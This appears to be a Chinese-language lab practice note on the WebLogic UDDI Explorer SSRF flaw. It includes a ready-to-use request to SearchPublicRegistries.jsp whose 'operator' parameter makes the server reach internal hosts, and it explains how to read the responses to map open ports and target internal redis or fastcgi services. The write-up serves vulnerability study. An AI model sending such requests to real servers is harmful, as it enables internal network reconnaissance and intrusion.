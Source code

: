 

# SSRF

漏洞产生于`/uddiexplorer/SearchPublicRegistries.jsp`页面中，可以导致ssrf，用来攻击内网中一些redis和fastcgi之类的脆弱组件

```
http://192.168.85.133:7001/uddiexplorer/SearchPublicRegistries.jsp
?rdoSearch=name
&txtSearchname=sdf
&txtSearchkey=
&txtSearchfor=
&selfor=Business+location
&btnSubmit=Search
&operator=http://localhost:7001
```

当http端口存活的时候就会显示404not found

![](weblogic漏洞练习\7.png)

随机访问一个端口则会显示could not connect

![](weblogic漏洞练习\8.png)
